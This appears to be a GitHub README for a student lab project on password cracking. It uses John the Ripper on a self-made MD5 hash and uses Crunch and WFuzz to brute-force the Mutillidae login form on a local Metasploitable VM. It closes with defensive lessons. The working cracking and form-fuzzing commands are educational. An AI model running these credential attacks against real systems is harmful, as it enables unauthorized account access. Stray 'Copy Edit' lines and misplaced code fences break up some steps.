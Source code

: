 # 🔐 Project 3: Brute Force & Dictionary Attacks

---

## 📘 About the Project

This project explores the execution and impact of **brute force** and **dictionary attacks**, two common password-cracking techniques used in cybersecurity. Used real penetration testing tools to simulate these attacks and highlight the risks of weak passwords and poor system configuration.

Focus was on:
- Using **John the Ripper** to crack hashed passwords
- Employing **Crunch** to generate password lists
- Using **WFuzz** to brute-force a login form on a vulnerable web application

---

## 🧪 Tools Used

| Tool            | Purpose |
|------------------|---------|
| **John the Ripper** | Cracking password hashes using brute force and dictionary attacks |
| **Crunch** | Generating custom password lists with user-defined patterns |
| **WFuzz** | Fuzzing login forms with password lists to find valid credentials |

---

## 🔍 Part 1: Cracking Passwords with John the Ripper

### 🛠️ Environment Setup
```bash
sudo apt update
sudo apt install john
```
### 🔑 Steps
Generate a hashed password

``` bash
Copy
Edit
openssl passwd -1 password1234
```
Create a simulated /etc/shadow file
shadow1a.txt contains the MD5-hashed password

Create a simulated /etc/passwd file
passwd1a.txt contains user info

Merge files with unshadow

```bash
Copy
Edit
unshadow passwd1a.txt shadow1a.txt > hashes1a.txt
Create a dictionary wordlist

```

``` bash
Copy
Edit
echo -e "123456\npassword\nroot\nadmin\npassword123\npassword1234" > testlist1a.txt
Run John the Ripper

```

``` bash
Copy
Edit
john --format=md5crypt --wordlist=testlist1a.txt hashes1a.txt
Display cracked password(s)

```

``` bash
Copy
Edit
john --show hashes1a.txt

```

✅ John successfully cracked the hash for password1234.

### 🔍 Part 2: Brute Force with WFuzz & Crunch
🛠️ Environment Setup
``` bash
Copy
Edit
sudo apt update
sudo apt install wfuzz
sudo apt install crunch

``` 
### 🌐 Target
Vulnerable web app: Mutillidae on Metasploitable VM

Login form URL:
http://192.168.121.131/mutillidae/index.php?page=login.php

### 🔐 Step-by-Step
1. Generate a password list with Crunch
``` bash
Copy
Edit
crunch 9 9 -t admin@@@@ > password.lst
Generates combinations like admin0000 to admin9999

```

We inserted the real password adminpass near the top for demo purposes

### 2. Run WFuzz attack
```bash
Copy
Edit
wfuzz -z file,/root/password.lst -d "username=admin&password=FUZZ&login-php-submit-button=Login" http://192.168.121.131/mutillidae/index.php?page=login.php
WFuzz iterates through all passwords in password.lst
```
Correct password adminpass was successfully identified

### 3. Verify Login
Visited the login URL in a browser

Used:

Username: admin

Password: adminpass

✅ Login was successful

### 🔚 Conclusion
Brute Force attacks try all possible combinations; Dictionary attacks are faster using pre-built lists.

Tools like Crunch, John the Ripper, and WFuzz are powerful for demonstrating password security flaws.

This project emphasizes the importance of:

Strong password policies

Rate limiting and account lockout features

Using hashed and salted passwords with modern algorithms (e.g., bcrypt)
